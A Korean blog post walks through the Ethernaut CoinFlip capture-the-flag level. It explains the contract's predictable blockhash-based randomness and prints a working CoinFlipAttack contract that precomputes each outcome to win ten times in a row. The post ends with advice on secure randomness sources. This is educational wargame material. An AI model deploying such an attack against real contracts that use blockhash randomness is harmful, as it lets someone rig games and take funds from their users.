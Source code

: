 ```yaml
---
emoji: 🧢
title: (Ethernaut 취약점 3) CoinFlip  
date: '2022-01-06 02:32:00'
author: 한성원
tags: ethernaut CoinFlip vulnerability
categories: 취약점분석
---
```



# 👋 1. CoinFlip
__Difficulty 3/10__

- 승리 조건
- 코드 분석
- 풀이
순서로 진행 될 것이다.

- - -

## 승리 조건
- 동전 뒤집기 게임에서 10번 연속 예측 성공하기

- - -

## 코드 분석
분석은 주석에!

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract CoinFlip {

  using SafeMath for uint256;
  // 연속 win의 수
  uint256 public consecutiveWins;
  // 이전 flip()에 사용됐던 hash 값 
  uint256 lastHash;
  // 난수 생성을 위한 값
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
  
  //constructor: consecutiveWins 초기 값을 0으로 setting
  constructor() public {
    consecutiveWins = 0;
  }

  //동전 뒤집기 예측을 위한 function
  //return boolean
  function flip(bool _guess) public returns (bool) {
    // blockValue에 last blockhash를 uint256으로 casting해 저장한다
    uint256 blockValue = uint256(blockhash(block.number.sub(1)));

    //만약 이전 게임에서 사용했던 hash라면 답이 같을 수 있음으로 revert한다
    if (lastHash == blockValue) {
      revert();
    }
    
    // 이번 게임에서 사용 될 hash를 저장
    lastHash = blockValue;
    //blockValue를 FACTOR로 나눈 값을 coinFilip에 저장한다.
    uint256 coinFlip = blockValue.div(FACTOR);
    // coinFlip의 숫자와 1이 같으면 side에 true, 다르면 false를 저장한다.
    bool side = coinFlip == 1 ? true : false;

    // 만약 side와 _guess가 같다면 실행, 즉 user의 예측이 맞았다면 실행
    if (side == _guess) {
      // 연속 win의 수에 1을 더한다
      consecutiveWins++;
      return true;
    } 
    // 만약 side와 _guess가 다르다면 실행, 즉 user의 예측이 틀렸다면 실행
    else {
      // 연속 win의 수를 초기화 시킨다.
      consecutiveWins = 0;
      return false;
    }
  }
}
```
- - -

### 풀이를 위한 Setup
[RemixIDE](https://remix.ethereum.org)를 사용한다. 
remix 사용법은 YouTube와 google에 많이 나와있으니 최신것으로 찾아보자!
그리고 docs를 읽어본다면 사용법을 쉽게 익힐 수 있을 것이다.

한 가지 주의할 점은 CoinFlip은 remix에서 바로 deploy하는 것이 아니라 ethernauts에서 만든 instance의 주소를 가지고 addressAt을 누르면 된다.
또한 우리는 Rinkeby Network를 사용하고 있으니 ENVIRONMENT를 "Injected Web3"를 선택해주어야 한다.


## 풀이
이 문제는 random으로 생성되는 값을 연속해서 맞추는 것이다.
그리고 이 문제에서 주목해야 할 점은 randomness이다.

solidity를 사용하여 randomness를 생성하는 것은 매우 까다롭고 대부분의 방법은 hacking 당하기 쉽다. 그래서 randomness를 생성하는 곳을 파고들어야 한다.

이 CoinFlip contract에서는 미리 정해진 FACTOR과 이전 block의 hash를 사용하여 randomness를 생성한다.

blockhash의 특징은 무엇일까? 우선 blockhash는 트랜잭션이 추가된 block의 hash 값이다. 즉 같은 block에 있는 transaction은 같은 blockhash를 가진다.

그렇다면 우리가 같은 block에 transaction을 보낸다면 해킹이 가능 할 것이다!

나는 그래서 CoinFlipAttack contract를 새로 만들었다. 

주석을 통해 CoinFlipAttack contract를 같이 분석 해보자!
```solidity
//아마 위해서 본 CoinFlip contract와 매우 비슷할 것이다.
contract CoinFlipAttack {

  using SafeMath for uint256;
  uint256 public consecutiveWins;
  uint256 public lastHash;
  // CoinFlip.flip()의 결과를 예측하기 위해 같은 FACTOR를 쓴다.
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
  //CoinFlip contract의 address
  address coinFlipAddress;

  //contructor: 배포시 CoinFlip의 address를 포함해 배포한다.
  constructor(address _coinFlipAddress) public {
    consecutiveWins = 0;
    //coinFlipAddress를 CoinFlip의 address로 설정한다.
    coinFlipAddress = _coinFlipAddress;
  }

  function flip() public {
    //CounFlip contract와 똑같이 blockValue를 생성한다.
    uint256 blockValue = uint256(blockhash(block.number.sub(1)));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    //CounFlip contract와 똑같이 conFlip 값을 생성한다.
    uint256 coinFlip = blockValue.div(FACTOR);
    bool side = coinFlip == 1 ? true : false;
    이미 맞춘 값을 CoinFlip.flip에 보내 해킹한다.
    CoinFlip(coinFlipAddress).flip(side);

  }
}

```

즉 CoinFlipAttack.flip()을 다른 블록에 10번 call하면 해킹에 성공하게 된다.


완료 후 Submit instance를 누르고 조금 기다리면 block이 mine되고,
```
٩(- ̮̮̃-̃)۶ Well done, You have completed this level!!!
```

- - -
## 마무리
solidity에서 randomness를 생성하는 것은 까다롭다. block.timestamp, block.hash등을 사용할 수 있지만 이는 모두 예측이 가능하다. 그래서 contract에서 randomness를 생성하는 것이 아니라 외부에 가져오는 것이 좋다. Openzeppline에서는 Chainlink VRF, RANDAO, Oraclize를 사용하는 것을 권장하고 있다. 앞으로 randomness를 만들때 조심하자! 

- - -
## 기타 정보
- rinkeyb network ether faucet: https://faucets.chain.link/rinkeby
- ethernaut: https://ethernaut.openzeppelin.com/
- remix IDE: https://remix.ethereum.org
```toc

```